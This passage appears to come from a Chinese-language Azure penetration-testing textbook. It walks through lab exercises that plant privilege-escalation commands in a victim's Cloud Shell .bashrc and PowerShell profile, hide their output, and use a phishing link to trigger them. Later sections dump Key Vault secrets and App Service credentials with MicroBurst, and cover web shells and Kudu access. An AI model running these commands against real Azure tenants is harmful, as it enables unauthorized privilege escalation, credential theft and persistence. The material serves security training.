您应该会看到 Cloud Shell 用户之前会话中的持久化文件和数据的输出。其中包括敏感信息，例如用户的 shell 上下文信息。



图 6.31 – 已挂载 Cloud Shell 文件的目录列表

12. 切换到已挂载的驱动器目录，并输入以下命令，将恶意命令附加到 .bashrc 文件中，以提升当前 Contributor 用户的权限：

```
cd /mnt
```

```
echo "az role assignment create --role \"Owner\" --assignee $(az ad user list --display-name contributoruser | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc
```

bashrc 是一个 Bash shell 脚本，在每次以交互方式启动 shell 会话时都会运行。上述命令将确保目标特权用户下次打开 Cloud Shell 会话时，会执行用于提升 Contributor 用户账户权限的命令。以下是相关截图：



图 6.32 – 修改 bashrc 文件

13. 要在 PowerShell 会话中执行相同操作，我们需要先在用户的主目录中创建两个目录。PowerShell 配置文件将存放于此。如果收到目录已存在的错误消息，可以忽略并继续执行下一步：

```
mkdir .config
```

```
mkdir .config/PowerShell
```

14. 与我们对 .bashrc 文件所做的操作类似，我们将通过向 PowerShell 配置文件添加以下命令，使 contributoruser 成为订阅的所有者：

```
echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith contributoruser).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
```

以下是前两个步骤的截图：



图 6.33 – PowerShell 配置文件修改

15. 使用以下命令从会话中卸载驱动器：

```
cd ..
umount /mnt
```

16. 现在，让我们将驱动器上传回存储帐户，并覆盖现有版本。首先，我们将获取存储帐户的名称并将其存储在变量中。将 `<storage_acct_name>` 替换为下载原始 Cloud Shell 文件时所用的存储帐户名称（以 cs 前缀开头）：

```
az storage account list --query [].name -o tsv
storagename=<storage_acct_name>
```

以下是相关截图：



图 6.34 – 识别 Cloud Shell 存储帐户

17. 使用以下命令获取访问密钥和文件共享，并将镜像上传回其中。将 `<download_location>` 替换为本练习步骤 8 中记下的位置：

```
key=$(az storage account keys list -n $storagename --query [0].value -o tsv)
```

```
csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv)
```

```
az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_azureadmin.img" --source "<download_location>/.cloudconsole/acc_azureadmin.img"
```

此后将开始上传过程。这将覆盖共享中的现有文件。以下是相关截图：



图 6.35 – 上传修改后的 .img 文件

18. 最后，我们需要以 azureadmin 用户账户打开一个 Cloud Shell 实例来触发攻击。为此，我们将以 azureadmin 账户登录，并在门户中打开 Cloud Shell。从以下截图可以看到，我们的命令已在 Cloud Shell 实例中执行，并且我们的 contributoruser 账户现在已是订阅的所有者：



图 6.36 – contributoruser 被添加为所有者

作为攻击者，在这种场景下，我们可能希望行动更隐蔽一些。要隐藏我们在前面截图中看到的输出消息，可以在 PowerShell 命令末尾使用 `| out-null` 函数来重定向输出。或者，我们可以在 Bash shell 攻击命令末尾使用 `&>/dev/null`。这样可以防止命令执行显示在管理员的 Cloud Shell 输出中。

> **重要说明**
>
> 在实际攻击场景中，受害者的 Cloud Shell 账户可能需要一段时间才会打开新会话。为加快这一过程，您可以发送一封包含指向 `https://shell.azure.com/` 链接的网络钓鱼邮件。该链接不仅看起来合法，而且一旦加载站点，就会立即启动 Cloud Shell 会话。

19. 现在让我们验证一下是否确实已将权限提升为 Owner 角色。我们可以在 Lava 中运行 priv_show 命令来验证：

```
cd ~/lava
python3 lava.py
exec priv_show
```

您应该可以看到，由于特权提升攻击成功，该用户现在已被分配为 OWNER 角色：



图 6.37 – 使用 Lava 确认已修改的角色

因此，既然我们已经验证攻击成功，现在让我们从 Contributor 用户中移除 OWNER 角色分配，以便仅使用 Contributor 角色完成剩余练习。

20. 在以 azureadmin 用户登录的 Cloud Shell (PowerShell) 环境中，逐行运行以下命令，以移除 Contributor 用户的 Owner 角色分配：

```
$upnsuffix=$(az ad signed-in-user show --query userPrincipalName --output tsv | sed 's/.*@//')
$contributoruser = "contributoruser@$upnsuffix"
$contributoruserid=$(az ad user list --upn $contributoruser --query [].objectId -o tsv)
az role assignment delete --assignee $contributoruserid --role "Owner"
```

这将移除 Contributor 用户的 Owner 角色分配。以下是相关截图：



图 6.38 – 移除 contributoruser 账户的 Owner 角色

21. 使用以下命令移除攻击者植入的特权提升命令：

```powershell
rm .config/PowerShell/Microsoft.PowerShell_profile.ps1
```

以下是命令的截图：



图 6.39 – 移除恶意命令

22. 要移除 Bash Cloud Shell 的特权提升命令，请运行以下命令，并删除截图中突出显示的最后一行。使用 Ctrl + S 保存文件。

```bash
code .bashrc
```


以下是输出的截图和要删除的行：



图 6.40 – 删除 .bashrc 文件的修改

现在我们已经看到了 Cloud Shell 如何被滥用，让我们来看一下如何从 Azure Key Vaults 中收集敏感信息。

#### 从 Key Vaults 中掠夺密钥、机密和证书

Azure Key Vault 是在 Azure 平台中管理应用程序机密、密钥和证书的服务（图 6.41）。Key Vault 的主要用例是为应用程序开发人员提供一种安全的方式，将其代码在运行时需要使用的敏感信息集中存储，而无需将该信息作为代码的一部分。常见存储在 Key Vault 中的敏感信息可能是令牌、密码、数据存储连接字符串、API 密钥和其他机密类型。



图 6.41 – 应用程序如何访问 Key Vault

正如你所能想象的，像 Key Vault 这样的服务通常是攻击者的热门目标，因为它可能包含可用于在攻击链中横向移动或用于解密加密信息的信息。

对 Key Vault 资源的访问通过两个平面进行控制（图 6.42） – 管理平面，其端点为 `management.azure.com`，以及数据平面，其端点为 `<vault-name>.vault.azure.com`（图 6.42）。**管理平面**是管理员与之交互以执行管理操作的端点，例如创建和删除 Key Vault 实例、检索 Key Vault 属性以及更新访问策略。

**数据平面**是应用程序与之交互以访问存储在保管库中的敏感信息（机密、密钥和证书）的接口。在此平面上可以执行的操作包括读取、添加、删除或修改密钥、机密和证书。



*图 6.42 – 管理平面与数据平面访问*

管理平面和数据平面都使用 **Azure Active Directory（Azure AD）** 进行身份验证，但其授权方式不同。管理平面使用 **Azure 基于角色的访问控制（Azure RBAC）** 管理权限，而数据平面使用 Key Vault 访问策略，但也可以使用 Azure RBAC 数据权限（见以下说明）。微软故意采用这种方法，以便组织能够将需要管理级权限的角色与需要访问敏感信息的角色分开。这里的思路是，对管理平面的访问不一定会给予对数据平面的访问。

> **重要说明**
> 在本书撰写之时，有一个新发布的特性允许使用 Azure RBAC 来控制对数据平面的授权访问。微软新增了九个新的服务级别角色，包括 Key Vault Administrator、Key Vault Certificates Officer 和 Key Vault Crypto Officer，这些角色授予在数据平面上执行不同级别操作的权限。在你的侦察活动中请记住这些角色。

从攻击角度来看，Contributor 角色默认对 Key Vault 资源的 data plane 没有任何权限。然而，我们可以利用其更新访问策略的权限来提升对数据平面的权限 – `Microsoft.KeyVault/vaults/accessPolicies/write`。诸如 MicroBurst、PowerZure 和 Lava 之类的工具利用此功能来转储 Key Vault 资源中的敏感信息。

在审查密钥保管库时，首先要查看访问策略，看看你的当前用户账户是否对保管库有权限。如果你的用户没有保管库的权限，并且你试图保持隐蔽，你可能需要查看如何使用其他授权的安全主体访问保管库。在许多情况下，这些权限会应用于自动化 `Run as` 账户（见本章后面）、应用注册和/或托管标识。

以下是使用替代主体访问密钥保管库的一些选项：

- **自动化账户**：创建一个使用 `Run as` 账户访问密钥保管库的新运行手册。
- **应用注册**：以应用注册身份进行身份验证并访问密钥保管库。
- **托管标识**：为该标识生成 REST API 令牌以访问密钥保管库。

这些选项中的每一个允许你访问保管库的方式都非常不同，但与更改访问策略相比，它们可能是访问保管库更隐蔽的选择。

在下一个动手练习中，我们将使用 MicroBurst 利用 Contributor 角色大规模利用 Key Vault 资源。

5. 提示时，选择 Azure 订阅并单击确定：



图 6.44 – 选择订阅

6. MicroBurst 然后将枚举所有 Key Vault 资源，添加访问策略以临时授予权限，窃取其中的信息，然后删除添加的访问策略。

```
PS C:\Users\pentestadmin\MicroBurst> Get-AzPasswords -StorageAccounts N -AutomationAccounts N -AppServices N -ACR N -CosmosDB N -ModifyPolicies Y -Verbose | Out-GridView
VERBOSE: Logged In as contributor@azurepentesting.com
VERBOSE: Getting List of Key Vaults...
VERBOSE: Starting on the azurepentesting Key Vault
VERBOSE: Current user does not have an access policy entry in the azurepentesting vault, adding get/list rights
VERBOSE: Exporting items from azurepentesting
VERBOSE: Removing current user from the Access Policies for the azurepentesting vault
VERBOSE: Starting on the azptkv2881 Key Vault
VERBOSE: Current user does not have an access policy entry in the azptkv2881 vault, adding get/list rights
VERBOSE: Exporting items from azptkv2881
VERBOSE: Getting Key value for the disk-encryption-key Key
VERBOSE: Getting Secret value for the db-encryption-key Secret
VERBOSE: Getting Secret value for the SQLAdminPassword Secret
VERBOSE: Getting Secret value for the twitter-api-key Secret
VERBOSE: Removing current user from the Access Policies for the azptkv2881 vault
VERBOSE: Password Dumping Activities Have Completed
```

图 6.45 – 示例 Get-AzPasswords 输出

以下是窃取信息的截图：



图 6.46 – Get-AzPasswords 输出在 gridview 中显示

值得注意的是，一些机密的值中会有其所属资源的信息。例如，数据库或存储账户连接字符串。而其他机密将只是机密信息本身，没有其所属资源或服务的上下文。

一种了解机密被使用位置的方法是审查访问策略。这将允许我们看到哪些应用程序/资源正在使用这些敏感信息。例如，如果一个名为 app1 的托管标识具有读取保管库中机密的访问策略分配，你可能会推断出分配了 app1 托管标识的资源会使用这些机密。你也可以审查资源的诊断日志（如果已启用并且你的凭据有权读取）以查看 API 调用来自何处。

使用 Azure Key Vault 和 Contributor 角色的另一种攻击模式是添加一个访问策略，允许我们在供应链攻击中生成受信任的证书。密钥保管库允许客户与受支持的第三方证书颁发机构集成，例如 Digicert 和 Globalsign，以简化组织受信任 TLS 证书的签发和管理（图 6.47）：



图 6.47 – Key Vault 证书生成流程

请将本章加入书签，因为密钥保管库通常包含在 Azure 环境中提升权限所需的机密。除密钥保管库外，还有 Azure Web 应用，它们经常包含可用于权限提升和横向移动的凭据（和托管标识）。

#### 利用 Web 应用进行横向移动和提升权限

Azure Web 应用通常在订阅中用于托管 Web 应用程序和 API。虽然我们之前提到过滥用托管标识的用法，但我们尚未介绍应用程序通常如何被管理。

应用程序代码可以通过多种不同的方式应用到 App Service 主机。部署中心可以与多种不同的代码存储库解决方案集成以与 CI/CD 管道同步，或代码可以通过手动部署推送。



图 6.48 – App Service 部署中心


应用程序代码可以通过使用发布配置文件中存储的凭据手动复制到系统。此配置文件包含以下凭据选项：

- Web Deploy
- FTP
- ReadOnly FTP
- Zip Deploy
- Database Connection Strings

作为对 App Service 应用程序具有 Contributor 角色的攻击者，我们可以访问此发布配置文件以获取凭据。这可以在 Azure 门户中应用程序的概览选项卡中完成。



图 6.49 – App Service 获取发布配置文件链接

这些配置文件也可以在 PowerShell 中收集，使用 Get-AzWebAppPublishingProfile 函数。由于我们在本章中已经很好地使用了 Get-AzPasswords，我们将继续我们的练习，展示如何使用它来收集 App Service 应用程序的凭据。

#### 实践练习 – 从 App Service 提取凭据

以下是我们将在本次练习中完成的任务：

- 任务 1：使用 MicroBurst 从订阅中提取 App Service 凭据

以下是完成此任务的步骤：

1. 使用我们之前配置的 PowerShell 会话，使用 Get-AzPasswords 函数执行 App Service 凭据转储：

```
Get-AzPasswords -AutomationAccounts N -StorageAccounts N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView
```

2. 在提示选择 Azure 订阅时，选择你的测试 Azure 订阅并单击确定：



图 6.50 - 选择适当的订阅

3. 在 resulting 输出中，你应该会看到从 App Service 配置中转储的凭据。



图 6.51 – MicroBurst App Service 输出

现在我们已经可以访问 app service 发布配置文件，我们将看看这些凭据如何与应用程序一起使用。

#### App Service 中的横向移动、权限提升和持久化

在收集了 App Service 发布配置文件的凭据后，我们有几个选项用于持久化、横向移动和/或提升权限。首先，我们需要查看应用程序文件，以查找可能存储在现有配置文件或应用程序代码中的任何凭据。最简单的方法是通过连接到应用程序关联的 FTP 服务器。你可以在 Azure 门户中获取 FTP 服务器端点（**App Service → Deployment Center → FTP Credentials**）。你也可以使用 Azure CLI 通过运行以下命令获取端点：

```
az webapp deployment list-publishing-profiles --name <app-name> --resource-group <group-name> --query "[? ends_with(profileName, 'FTP')].{profileName: profileName, publishUrl: publishUrl}"
```

然后你可以使用 FTP 客户端连接。如果你没有首选的 FTP 客户端，你始终可以使用 Windows 资源管理器配合 FTP:// 路径。



*图 6.52 – App Service 应用程序的示例 FTP 目录*

在这一点上，我们还可以上传一个 web shell，它将允许对应用程序服务器进行持久访问，并且允许我们运行命令为任何附加的管理身份生成令牌。如果你选择这种方式，请确保你使用的是你信任的 web shell 并对 web shell 进行密码保护，以防止其他攻击者访问你的 shell。

作为 web shell 的替代方案，可以从门户中的 Console 部分在 App Service 服务器上运行命令。



图 6.53 – App Service 控制台界面

此界面很方便，但它确实要求你以 Contributor 身份通过 Azure AD 进行身份验证。因此，如果你丢失了 Contributor 账户，你可能就无能为力了。

最后，还有一个可用于管理应用程序的替代管理界面。此界面可以在 $APP_NAME.scm.azurewebsites.net 子域下找到，而不是主 App Service URL ($APP_NAME.azurewebsites.net)。



图 6.54 – App Service Kudu 界面

此界面是 Kudu (https://github.com/projectkudu/kudu) 服务，它可以允许多种不同的攻击选项。此界面具有 CMD 和 PowerShell 控制台、文件浏览器以及所有环境设置和变量的导出。

此外，此界面无需通过 Azure AD 进行身份验证即可使用。通过访问受影响站点上的 https://$APP_NAME.scm.azurewebsites.net/basicauth 页面，你只需输入发布配置文件中的凭据即可。这在你需要重新获得对订阅的访问权限时非常方便。

> **重要说明**
> 虽然我们在本章中涵盖了一些横向移动选项，但其中一位作者之前撰写了一篇博客文章，更深入地介绍了其中一些技术：https://blog.netspi.com/lateral-movement-azure-app-services/。

作为本节的最后说明，我们将提到 App Service 应用程序经常附加有托管身份。由于我们之前已经介绍过使用托管身份提升权限（第 5 章，IaaS 服务上的利用 Contributor 权限），我们想在此将其作为攻击 App Service 应用程序时需要留意的一个选项。用于本章场景创建的应用程序确实附加了托管身份，虽然我们没有针对它的练习，但你仍然可以使用示例 App Service 应用练习你的托管身份利用技能。

继续到本章的最后一节，我们将回顾 Automation Accounts 以及如何从中提取凭据。

#### 从 Automation Accounts 提取凭据

与许多云环境相关的一个目标是自动化。这可能像自动化系统配置更改和补丁管理一样简单，也可能像自动轮换 Web 应用程序上的 SSL 证书并将它们存储在密钥库中一样复杂。

这些操作可以通过在 Automation Account 中的 **runbook** 中运行代码来完成。这些 runbook 只是存储在 Automation Account 中的代码块。代码可以用 PowerShell 或 Python（2 或 3）编写，并且内置编辑器使将常见的 Azure 管理功能集成到代码中变得非常容易。



图 6.55 – runbook 创建选项

可以在 Azure 中自动化的任务有无数种，但这些操作通常需要租户中的安全主体访问权限或外部服务的凭据。在安全主体的情况下，可以将 Run as 账户添加到 Automation Account。此账户可以在订阅或租户内授予权限，并且 runbook 可以使用该账户代表其采取行动。

此外，Run as 账户可以被授予密钥库上的访问策略权限。这将允许该账户从密钥库中提取它可能需要的任何明文凭据，而不是将凭据存储在自动化账户中，或作为 runbook 代码本身中的变量。

> **重要说明**
> 
> 由于 Automation 账户在环境中频繁用于访问密钥库，MicroBurst 工具包中添加了一个函数，用于使用 Automation 账户 runbook 自动提取 Key Vault 值。请查看此 NetSPI 博客以更好地了解提取过程以及它如何导致 CVE-2019-0962 漏洞的发现：
> 
> https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-automation-accounts-key-stores/。

就这一点而言，明文凭据可以直接存储在 Automation Account runbook 中作为代码中的变量（不是最佳实践），或作为 Automation Accounts 中的凭据对象。这些凭据对象可以通过 runbook 代码中的 cmdlet 检索并转换为可以传递给用于身份验证的函数的变量。需要注意的是，任何有权修改和运行 Automation Account 中 runbook 的人将能够检索这些凭据。

以下是作者在 Azure 渗透测试期间在 Automation Accounts 中看到的存储凭据的一些实际示例：

- 虚拟机的存储本地管理员凭据
- 全球管理员特权账户的存储凭据
- 硬编码到 runbook 代码中的域加入凭据

虽然我们不会介绍如何读取 runbook 代码以查找凭据，但我们将展示如何使用 MicroBurst 中的函数提取任何存储的凭据和附加 Run as 账户的身份验证证书。

